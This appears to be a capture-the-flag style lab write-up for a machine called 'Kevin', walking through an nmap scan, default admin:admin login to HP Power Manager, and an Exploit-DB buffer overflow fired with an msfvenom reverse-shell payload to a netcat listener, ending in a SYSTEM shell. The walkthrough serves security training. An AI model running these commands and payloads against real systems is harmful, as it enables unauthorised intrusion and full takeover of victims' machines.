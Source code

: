 ```yaml
---
layout: post
title: PG | Kevin
subtitle: Effective enumeration will save you time.
---
```


# Nmap Scan Results

~~~shell
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-28 07:09 UTC
Nmap scan report for 192.168.191.45
Host is up (0.015s latency).
Not shown: 65523 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
80/tcp    open  http        GoAhead WebServer
|_http-server-header: GoAhead-Webs
| http-title: HP Power Manager
|_Requested resource was http://192.168.191.45/index.asp
135/tcp   open  msrpc       Microsoft Windows RPC
139/tcp   open  netbios-ssn Microsoft Windows netbios-ssn
445/tcp   open  �\�\�U      Windows 7 Ultimate N 7600 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
|_ssl-date: 2023-10-28T07:11:02+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: KEVIN
|   NetBIOS_Domain_Name: KEVIN
|   NetBIOS_Computer_Name: KEVIN
|   DNS_Domain_Name: kevin
|   DNS_Computer_Name: kevin
|   Product_Version: 6.1.7600
|_  System_Time: 2023-10-28T07:10:47+00:00
| ssl-cert: Subject: commonName=kevin
| Not valid before: 2023-08-01T03:26:36
|_Not valid after:  2024-01-31T03:26:36
3573/tcp  open  tag-ups-1?
49152/tcp open  msrpc       Microsoft Windows RPC
49153/tcp open  msrpc       Microsoft Windows RPC
49154/tcp open  msrpc       Microsoft Windows RPC
49155/tcp open  msrpc       Microsoft Windows RPC
49158/tcp open  msrpc       Microsoft Windows RPC
49160/tcp open  msrpc       Microsoft Windows RPC
Service Info: Host: KEVIN; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h23m59s, deviation: 3h07m49s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 7 Ultimate N 7600 (Windows 7 Ultimate N 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::-
|   Computer name: kevin
|   NetBIOS computer name: KEVIN\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-10-28T00:10:47-07:00
|_nbstat: NetBIOS name: KEVIN, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:ba:5f:74 (VMware)
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-10-28T07:10:47
|_  start_date: 2023-10-28T07:08:27

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.39 seconds
~~~

# Service Enumeration

## HTTP (TCP/80)

The target is hosting HP Power Manager website on port 80.

![Kevin](/assets/img/KevinPG(1).png)

I started by searching for the default credentials and found admin:admin which worked!

After enumerating through the website I found nothing of significance, so started searching for know exploits

I found [this](https://www.exploit-db.com/exploits/10099) exploit "Hewlett-Packard (HP) Power Manager Administration Power Manager Administration - Universal Buffer Overflow" (10099.py) which uses a python script to execute a Buffer Overflow attack

![Kevin](/assets/img/KevinPG(2).png)

Inspecting the python script we can see it executes shell code in the SHELL variable, this is where we will have to generate our shell code for our reverse shell and replace for our foothold

![Kevin](/assets/img/KevinPG(3).png)

~~~shell
┌──(kali㉿kali)-[~/Desktop/Kevin]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.167 LPORT=80 -b '\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a' -e x86/alpha_mixed -f c

-b: specifies the bad characters, which as seen in the image of the payload are displayed just before the shell
-e x86/alpha_mixed: generates alphanumeric shellcode for a 32bit architecture
~~~

Replace Shell code in the n00b n00b shell with our MSFVenom generated shell code

![Kevin](/assets/img/KevinPG(4).png)

Start netcat listener on port 80
~~~shell
┌──(kali㉿kali)-[~/Desktop/Kevin]
└─$ nc -nvlp 80  
listening on [any] 80 ...
~~~
Run the exploit
~~~shell
┌──(kali㉿kali)-[~/Desktop/Kevin]
└─$ python2.7 10099.py 192.168.191.45                                             
HP Power Manager Administration Universal Buffer Overflow Exploit
ryujin __A-T__ offensive-security.com
[+] Sending evil buffer...
HTTP/1.0 200 OK

[+] Done!
~~~
And we recieve a root (system) shell on our netcat listener!
~~~shell
┌──(kali㉿kali)-[~/Desktop/Kevin]
└─$ nc -nvlp 80  
listening on [any] 80 ...
connect to [192.168.45.167] from (UNKNOWN) [192.168.191.45] 49168
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
~~~